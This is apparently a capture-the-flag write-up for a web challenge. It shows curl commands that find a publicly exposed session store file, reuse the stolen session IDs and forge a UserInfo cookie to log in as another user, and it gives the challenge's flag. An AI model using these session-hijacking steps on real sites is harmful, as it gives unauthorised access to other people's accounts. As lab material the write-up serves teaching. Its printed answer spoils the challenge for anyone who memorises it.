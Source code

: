 Flag is restricted to logged users only , can you be one of them.

## solve
when i go into the website i have this one.
Welcome to sessions valley
You are not logged-in so you don't have any flag to view
Flag: NULL

i use curl
```
curl website
    <script type="text/javascript">

      if(document.cookie !== ''){
        $.post('getcurrentuserinfo.php',{
          'PHPSESSID':document.cookie.match(/PHPSESSID=([^;]+)/)[1]
        },function(data){
          cu = data;
        });
      }
    </script>
  </body>
</html>

```
I got a PHPsessionid so i will add it on my curl
```
└─# curl -H "cookie:PHPSESSID=" http://wlem14nzy24tnzkmkm73p97aqzqw5l3nqnlphq36-web.cybertalentslabs.com/ 
Session not found in data/session_store.txt    

```
here in my PHPSESSIONID. i left the session empty so i got a file.txt

```
http://wlem14nzy24tnzkmkm73p97aqzqw5l3nqnlphq36-web.cybertalentslabs.com/data/session_store.txt
iuqwhe23eh23kej2hd2u3h2k23
11l3ztdo96ritoitf9fr092ru3
ksjdlaskjd23ljd2lkjdkasdlk
```
I got 3 session i will use them
```
└─# curl -H "cookie:PHPSESSID=ksjdlaskjd23ljd2lkjdkasdlk" http://wlem14nzy24tnzkmkm73p97aqzqw5l3nqnlphq36-web.cybertalentslabs.com/
UserInfo Cookie don't have the username , Validation failed    
```
When i try a cookie it's saying UserInfo cookie don't have username
so i will add it now
```
└─# curl -H "cookie:PHPSESSID=11l3ztdo96ritoitf9fr092ru3; UserInfo=mary" http://wlem14nzy24tnzkmkm73p97aqzqw5l3nqnlphq36-web.cybertalentslabs.com/
      <h1>Welcome to sessions valley</h1>
      <hr />
              <h2>You are Loggedin</h2>
            <h3>Flag: sessionareawesomebutifitsecure</h3>
    </div>


```